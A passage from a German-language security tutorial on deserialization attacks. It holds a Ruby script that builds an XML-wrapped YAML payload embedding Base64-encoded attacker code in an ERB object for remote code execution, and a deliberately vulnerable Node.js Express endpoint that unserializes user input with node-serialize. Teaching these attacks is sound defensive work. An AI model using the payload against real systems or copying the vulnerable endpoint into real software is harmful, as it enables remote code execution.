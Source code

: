 ```ruby
code  = File.read(ARGV[1])

# Construct a YAML payload wrapped in XML
payload = <<-PAYLOAD.strip.gsub("\n", "&#10;")
<fail type="yaml">
--- !ruby/object:ERB
 template:
    src: !binary |-
        #{Base64.encode64(code)}
</fail>
PAYLOAD
```

Der Code liest zuerst eine Payload aus einem File aus (der Pfad wird
durch die Variable ARGV bereitgestellt) und erstellt dann ein Dokument
welches ein serialisiertes ERB-Objekt beschreibt. Hier wurde nun src mit
dem Schadcode befüllt und falls die Webapplikation, welche dieses
serialisierte Objekt entgegen nimmt, nun das Objekt deserialisert und
auf die *result* Methode zugreift wird der bösartige Code des Angreifers
ausgeführt. Dies entspricht einer Remote Command Injection, basierend
auf einem Serialisierungsfehler.

## Serialisierungsangriffe in Javascript / Node.js

Ein schönes Beispiel für Serialisierungsangriffe ist folgende *node.js*
Applikation welche die Serialisierungsbibliothek *node-serialize*
verwendet:

```javascript
const express = require('express');
const bodyParser = require('body-parser');
const serialize = require('node-serialize');

const app = express();

app.use(bodyParser.urlencoded({ extended: false }));

app.post("/api/deserialize", function(req, res) {
    var str = ""+req.body.fubar;
      const todo = serialize.unserialize(str);
      console.log(todo);
      res.send("wohoo!");
});

const server = app.listen(3000, function() {
      console.log("Server started! (Express.js)");

        // Beispiel eines "normalen" serialisierten Objekts
        const normal = {
            todo: "some string"
        };
      console.log("serialized normal object" + serialize.serialize(normal));
});
```
